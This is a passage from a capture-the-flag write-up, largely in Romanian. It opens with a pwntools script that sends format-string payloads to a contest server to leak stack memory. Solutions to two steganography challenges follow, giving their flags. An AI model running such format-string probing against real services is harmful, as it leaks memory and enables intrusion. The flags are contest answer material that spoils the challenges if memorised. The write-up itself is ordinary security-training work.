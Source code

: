 >from pwn import *
>
>for i in range(100):
>  try:
>    sh =remote('64.226.75.15',60101)
>    sh.sendlineafter('Unde ?\n', '%{}$s'.format(i))
>    print sh.recvuntil('Unde ?\n')
>    sh.close()
>  except EOFError:
>    pass


---

# Steganography:

# Apus in Timisoara:
- Flag: ITEC{T1M1S04RA_3_FRUM0ASA_S1_UNIC4_NU_I_ASA??}

## Challange description:
>O poza minunata cu un apus in Timisoara. Sau e mai semnificativa de atat??

## Write up
Am vazut ca scrie in hint "Semnificativ"
Dupa aceea m-am dus cu gandul la lsb sau msb
Am zis ca gasesc un site care sa aiba un solver pentru lsb

https://stylesuxx.github.io/steganography/

Am gasit era flagul encriptat cu Ceaser cypher

VGRP{G1Z1F04EN_3_SEHZ0NFN_F1_HAVP4_AH_V_NFN??}

Si flagul dupa ceaser


# Poza Itec:
- Flag: ITEC{ST1AI_CA_P0T1_4SCUND3_F1S1ER3_4N_POZ3??!}

## Challange description:
>Am primit aceasta poza. Presimt ca se ascunde ceva in ea, poti sa imi spui ce ?

## Write up
We spent a lot of time trying to solve this task. We notices straight away the bytes at the begining of the image that show up in files altered with steghide, but were not able to crack it with tools we had on hand. 

![Poza Itec HxD](https://i.imgur.com/XHiyz0t.png)

